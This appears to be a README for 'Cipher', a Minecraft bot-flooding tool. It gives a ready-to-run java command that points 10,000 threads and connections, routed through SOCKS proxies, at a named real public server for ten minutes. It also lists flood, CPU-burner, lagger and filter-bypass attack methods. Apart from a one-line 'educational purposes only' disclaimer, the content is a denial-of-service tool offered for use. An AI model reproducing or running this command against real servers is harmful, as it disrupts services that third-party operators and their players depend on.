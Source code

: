 # Cipher
java -jar exploitbot.jar host=mc.hypixel.net port=25565 protocol=47 exploit=ExploitBot proxiesFile=socks.txt srvResolve=false srvResolve2=false threads=10000 timeout=1000 attackTime=600 connections=10000 loopAmount=1 keepAlive=true alwaysResolve=false print=false multi=true removeFailure=false proxiesType=socks socksV4=true
## Website: https://itzapiphub.online/
<p align="center"><img src="./icon/test.ico" width="150px" height="150px" alt="mcbot"></p>
<h1 align="center">⚠WARNING: to kill botfilter you need a very powerful Dedicated Server or VDS</h1>
## Methods
```💣 Methods:
localhost
flood2
extreme4
flood1
bosshandler
cpuburner1
cpuburner2
cpuburner3
cpulagger
extreme2
test1
extreme1
spigot2
test2
spigot1
cpuburner4
cpuburner5
cpuburner6
ExploitBot
bypass1
RNick
bypass3
bypass2
```
## WARNING
* Use this script for educational purposes only or to test your server!
